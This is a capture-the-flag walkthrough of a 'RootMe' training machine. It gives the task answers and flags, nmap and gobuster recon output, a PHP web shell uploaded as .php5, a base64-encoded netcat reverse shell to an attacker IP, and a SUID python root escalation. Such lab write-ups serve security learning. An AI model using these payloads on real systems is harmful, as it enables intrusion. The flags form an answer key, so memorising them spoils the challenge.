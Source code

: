 # RootMe 

## Task 1  Deploy the machine
+ Deploy The Machine `No Answer Needed`

## Task 2  Reconnaissance
+ Scan the machine, how many ports are open?`2`
+ What version of Apache is running? `2.4.29`
+ What service is running on port 22? `ssh`
+ Find directories on the web server using the GoBuster tool.`No Answer Needed`
+ What is the hidden directory?`/panel/`

## Task 3  Getting a shell
+ user.txt`THM{y0u_g0t_a_sh3ll}`

## Task 4  Privilege escalation
+ Search for files with SUID permission, which file is weird?`/usr/bin/python`
+ Find a form to escalate your privileges.`No Answer Needed`
+ root.txt`THM{pr1v1l3g3_3sc4l4t10n}`

## Hand's On Lab 

```bash
nmap -sC -sV 10.10.174.74 > nmap_scan
gobuster dir -u http://10.10.174.74/ -w ~/HackTools/directory-list-2.3-medium.txt
hengkisirait: RootMe $ gobuster dir -u http://10.10.174.74/ -w ~/HackTools/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.174.74/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /Users/hengkisirait/HackTools/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2024/02/13 02:55:33 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.174.74/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.174.74/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.174.74/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.174.74/panel/]
```

+ Create some file with difference extention `.php5`
```php
<?php echo system($_GET['c']); ?>
```

+ Payload on parameter 
```bash
echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxMC40LjM3LjE2MCAxMzM3ID4vdG1wL2Y= | base64 -d > shell.sh

chmod 777 shell.sh
```

+ Enumeration
```bash
www-data@rootme:/var/www$ cat user.txt
cat user.txt
THM{y0u_g0t_a_sh3ll}
```
+ Find SUID file using `find / -perm /4000 2>/dev/null` and there is `/usr/bin/python` on list
+ Escalation `python SUID file`
```bash
python -c "import os; os.execl('/bin/bash','bash','-p')"
bash-4.4# cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```



